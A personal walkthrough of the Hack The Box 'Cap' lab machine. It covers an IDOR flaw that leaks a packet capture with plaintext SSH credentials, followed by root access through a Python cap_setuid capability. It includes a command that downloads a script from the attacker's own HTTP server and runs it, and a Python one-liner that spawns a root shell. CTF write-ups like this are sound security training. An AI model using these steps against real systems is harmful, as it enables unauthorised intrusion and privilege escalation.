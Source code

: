 # Cap

![](images/Cap.png)

__Machine IP__: 10.10.10.160

__DATE__ : 18/09/2024

# Machine Info
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 

# FootHold 

## NMAP
![](images/nmap.png)

## HTTP
![](images/dashboard.png)
After looking around I have noticed that in the security snapshot I was getting different URLs with different data types

example
10.10.10.245/data/2

## GoBuster
![](images/gobuster.png)
__NOTE: Had help was told to look at the sizes more carefully. Lost couple of hours here and decided to get hint__

we can see that there is 3 different sizes


**17144** had no packets

**17153** was data of my GoBuster

**17147** there was an interesting PCAP

# USER

## PCAP
![](images/pcap.png)
We use WireShark to open and read this file. It takes less than 2 minutes to see we have a user and password

we know SSH in open lets try it

After we connected to SSH we can see the user.txt

# ROOT
I have decided to run Linpeas.sh while also manually privilege escalating

My folder with linpeas.sh
```bash
python3 -m http.server 8080
```
victim 
```bash
w get http:$MyIP:8080/linpeas.sh

chmod +x linpeas.sh

./linpeas
```


linpeas detects vulnerability in Capabilities

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

I use GTFObins select Python and Capabilities 


```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

I get root and cat the root.txt

Machines PWNED

